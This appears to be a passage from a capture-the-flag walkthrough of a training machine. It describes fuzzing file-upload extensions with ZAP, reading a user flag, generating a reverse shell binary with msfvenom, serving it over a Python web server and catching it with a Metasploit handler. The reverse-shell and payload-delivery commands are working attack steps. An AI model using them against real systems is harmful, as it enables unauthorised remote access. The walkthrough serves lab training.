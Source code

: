 Attack type = Sniper

Payload type = Simple list

## brute force with ZAP

include your target to Context

pick the `internal/POST:index.php` request

right click -> attack -> fuzzer

Type: fìle

select the file extension in your request (eg `php`), on the right menu click on "add" and select your list, eg.

```
php
php3
php4
php5
phtml
```


Start fuzzer

pay attention to Size Resp. Body

## user flag

```bash
www-data@vulnuniversity:/var/www/html$ ls /home/bill/
user.txt
```

## meterpreter session

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.100.14 LPORT=5555 -f elf -o shell.elf
```

Upload to target with Python webserver:

```
joshua@kaligra:~/Documents/thm/vulnversity$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.118.58 - - [01/Jul/2023 15:25:05] "GET /shell.elf HTTP/1.1" 200 -
```

Start `msfconsole` handler:

```
msfconsole -x "use multi/handler;set payload linux/x86/meterpreter/reverse_tcp; set lhost tun0; set lport 5555; exploit"
```

```
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
lhost => tun0
lport => 4444
[*] Started reverse TCP handler on 10.8.100.14:5555
```
